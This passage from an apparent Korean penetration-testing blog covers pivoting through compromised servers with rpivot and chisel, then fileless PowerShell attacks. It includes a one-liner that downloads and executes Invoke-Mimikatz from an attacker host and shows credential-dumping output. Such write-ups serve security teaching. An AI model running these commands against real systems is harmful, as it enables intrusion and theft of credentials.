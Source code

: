 ![Untitled](/assets/2024-03-20//Untitled%2034.png)

해당 도구는 바이너리 형태가 아니기 때문에 python 2가 필요합니다. 대상 서버에 임의 설치가 불가한 상황이라면 python2 포터블을 활용할 수 있습니다.

for window

[https://github.com/sganis/pyportable/releases/download/v2.7.10rc1/pyportable-2.7.10rc1.zip](https://github.com/sganis/pyportable/releases/download/v2.7.10rc1/pyportable-2.7.10rc1.zip)

이 처럼 rpivot 도구를 활용하여 SSH 서비스에 대한 접속 정보가 없고 탈취한 서버가 웹서버가 아니더라도 강제로 SOCK4 통신을 생성하여 proxychain 사용이 가능합니다.

따라서, 주어진 환경에 맞춰 chisel과 rpivot 중 유동적으로 사용하면 됩니다.

# Future Plan

지금까지 SSH Tunneling, Neo-reGeorg, chisel, rpivot 등을 활용하여 내부망 침투 환경을 구성하는 다양한 방법을 살펴보았습니다.

최근 다양한 악성파일 탐지 기술의 발전함에 따라 특히 윈도우 공격은 powershell을 활용한 fileless 공격이 성행하고 있습니다. 아래와 같이 실행 시, 공격대상 호스트OS에 파일이 저장되지 않은 채 함수를 불러오고 실행하는 것이 가능합니다.

```powershell
# IN MEMORY SCRIPT (fileless)
PS> IEX(New-Object Net.Webclient).DownloadString('http://10.8.0.55:8000/Invoke-Mimikatz.ps1')
PS> Get-Help Invode-Mimikatz

# GET NTML hash
PS> Invoke-Mimikatz -DumpCreds
<#
Hostname: ECYOOBI-ECYOOBI/ S-1-5-21-2601599994-785418798-88965947

  .#####.   mimikatz 2.2.0 (x64) #19041 Jan 29 2023 07:49:10
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

mimikatz(powershell) # sekurlsa::logonpasswords

Authentication Id : 0 ; 238873 (00000000:0003a519)
Session           : RemoteInteractive from 2
User Name         : Administrator
```